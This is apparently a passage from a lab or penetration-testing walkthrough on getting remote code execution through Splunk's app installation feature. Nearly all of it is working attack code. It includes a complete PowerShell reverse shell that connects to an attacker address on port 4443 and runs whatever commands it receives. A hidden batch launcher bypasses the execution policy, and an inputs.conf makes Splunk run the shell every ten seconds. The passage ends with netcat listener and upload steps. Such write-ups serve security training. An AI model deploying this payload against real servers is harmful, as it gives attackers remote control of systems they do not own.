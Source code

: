#### Step 2: Malicious Application Creation
```bash
# Create Windows-specific malicious Splunk application
mkdir -p splunk_rce/{bin,default}

# Create PowerShell reverse shell
cat > splunk_rce/bin/shell.ps1 << 'EOF'
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.15",4443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
EOF

# Create batch launcher
cat > splunk_rce/bin/run.bat << 'EOF'
@ECHO OFF
PowerShell.exe -exec bypass -w hidden -Command "& '%~dpn0.ps1'"
Exit
EOF

# Create inputs.conf
cat > splunk_rce/default/inputs.conf << 'EOF'
[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
EOF

# Package application
tar -czf splunk_rce.tar.gz splunk_rce/
```

#### Step 3: Application Deployment
```bash
# Setup netcat listener (in separate terminal)
nc -lvnp 4443

# Upload application via web interface:
# 1. Navigate to: http://10.129.201.50:8000/en-US/manager/search/apps/local
# 2. Click "Install app from file"
# 3. Browse and select splunk_rce.tar.gz
# 4. Click "Upload"
# 5. Application will be enabled automatically
```
